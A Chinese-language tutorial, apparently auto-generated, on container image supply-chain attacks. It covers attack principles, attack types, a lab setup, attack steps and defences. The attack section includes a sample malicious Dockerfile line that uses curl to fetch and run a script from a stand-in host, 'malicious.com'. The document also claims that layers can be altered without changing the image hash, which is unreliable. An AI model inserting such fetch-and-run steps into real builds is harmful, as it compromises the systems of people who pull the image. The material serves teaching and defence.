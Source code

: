 # 容器镜像供应链攻击的基本概念

## 1. 引言

随着云原生技术的迅速发展，容器化应用成为现代软件开发的重要组成部分。容器镜像是运行容器的基础，其安全性直接影响到整个应用的安全性。容器镜像供应链攻击是指攻击者通过操控容器镜像的构建和分发过程，注入恶意代码或后门，从而危害系统的安全性。这种攻击不仅威胁到单个应用，也可能影响到整个云环境的安全。

## 2. 基本原理解析

### 2.1 容器镜像的构建与分发

容器镜像是由一系列层（Layers）组成的，每一层都对应着一个文件系统的状态。容器镜像的构建通常涉及以下步骤：

1. **Dockerfile 定义**：开发者通过编写 Dockerfile 来定义镜像的构建过程，包括基础镜像、安装依赖和配置环境。
2. **镜像构建**：Docker 引擎读取 Dockerfile，逐层构建镜像并将其存储在本地或远程仓库中。
3. **镜像分发**：镜像被推送到镜像仓库（如 Docker Hub、私有仓库等），供后续拉取和部署。

### 2.2 攻击原理

容器镜像供应链攻击主要依赖以下几个技术原理：

- **恶意代码注入**：攻击者可以通过修改 Dockerfile 或直接在镜像的某一层中注入恶意代码。
- **镜像替换**：攻击者可以上传一个伪造的镜像，替代合法的镜像，用户在拉取镜像时不知情。
- **依赖污染**：攻击者可以在镜像中引入带有恶意载荷的依赖库，从而在应用运行时执行恶意代码。

## 3. 攻击类型与危害

### 3.1 攻击类型

1. **基础镜像攻击**：攻击者利用公共基础镜像的漏洞或不安全配置注入恶意代码。
2. **构建过程攻击**：攻击者利用 CI/CD 工具链的漏洞，在镜像构建过程中注入恶意代码。
3. **镜像仓库攻击**：攻击者入侵镜像仓库，替换或上传恶意镜像。
4. **依赖攻击**：通过在镜像中添加有漏洞或恶意的依赖库，危害应用的安全。

### 3.2 危害分析

- **数据泄露**：恶意代码可能会窃取敏感数据，如用户凭证、API 密钥等。
- **系统破坏**：攻击者可以利用后门控制系统，进行远程操作或破坏。
- **业务中断**：恶意代码的执行可能导致应用崩溃或服务不可用。
- **法规风险**：数据泄露可能导致合规性问题，给企业带来法律风险。

## 4. 高级利用技巧

### 4.1 攻击者手法

- **利用 CI/CD 漏洞**：攻击者可以通过钓鱼或社交工程手段获取 CI/CD 系统的凭证，进而修改 Dockerfile 或直接注入恶意代码。
- **镜像层篡改**：利用镜像的层叠特性，攻击者可以在不改变镜像哈希值的情况下，注入恶意代码，例如修改 `ENTRYPOINT` 或 `CMD` 指令。
- **利用环境变量**：攻击者可以利用环境变量传递敏感信息，或通过脚本执行恶意命令。

## 5. 攻击步骤与实验环境搭建

### 5.1 实验环境搭建

#### 5.1.1 所需工具

- Docker：用于构建和运行容器。
- Git：用于版本控制和代码管理。
- CI/CD 工具（例如 Jenkins、GitLab CI）：用于自动化构建过程。

#### 5.1.2 环境搭建步骤

1. **安装 Docker**
   ```bash
   sudo apt-get update
   sudo apt-get install -y docker.io
   sudo systemctl start docker
   sudo systemctl enable docker
   ```

2. **安装 Git**
   ```bash
   sudo apt-get install -y git
   ```

3. **搭建 CI/CD 环境（以 Jenkins 为例）**
   ```bash
   sudo apt-get install -y openjdk-11-jdk
   wget -O jenkins.war https://get.jenkins.io/war-stable/2.319.1/jenkins.war
   java -jar jenkins.war
   ```

### 5.2 攻击步骤

#### 5.2.1 构建恶意镜像

1. **编写恶意 Dockerfile**
   ```dockerfile
   FROM alpine:latest
   
   RUN apk add --no-cache curl
   RUN curl -O http://malicious.com/malware.sh && bash malware.sh
   CMD ["sh"]
   ```

2. **构建镜像**
   ```bash
   docker build -t malicious-image .
   ```

3. **推送到镜像仓库**
   ```bash
   docker tag malicious-image your-repo/malicious-image
   docker push your-repo/malicious-image
   ```

#### 5.2.2 通过 CI/CD 进行注入

1. **配置 Jenkins 作业**
   - 创建新作业，配置为拉取 Dockerfile。
   - 在构建步骤中，修改 Dockerfile 注入恶意代码。

2. **触发构建**
   - 手动触发构建，观察构建日志，确保恶意代码被注入。

#### 5.2.3 拉取并运行恶意镜像

1. **从镜像仓库拉取恶意镜像**
   ```bash
   docker pull your-repo/malicious-image
   ```

2. **运行容器**
   ```bash
   docker run --rm your-repo/malicious-image
   ```

### 5.3 结果验证

- 检查容器内是否存在恶意文件或进程。
- 监视网络流量，查看是否有异常连接。

## 6. 防御措施

### 6.1 镜像安全策略

- 使用私有镜像仓库，限制公共镜像的使用。
- 定期扫描镜像中的漏洞，使用工具如 Trivy、Clair。
- 使用签名机制确保镜像的完整性。

### 6.2 CI/CD 安全

- 限制 CI/CD 工具的访问权限，使用最小权限原则。
- 定期审计 CI/CD 配置，确保无安全隐患。
- 使用环境变量加密敏感信息，避免明文暴露。

### 6.3 监控与响应

- 建立实时监控机制，及时发现异常行为。
- 制定应急响应计划，快速处理安全事件。

## 7. 结论

容器镜像供应链攻击的威胁不容小觑，开发者和运维团队应提高警惕，采取必要的安全措施以防范潜在的攻击。通过深入了解攻击原理和防御策略，可以有效地提升容器环境的安全性。

---

*文档生成时间: 2025-03-13 22:09:01*
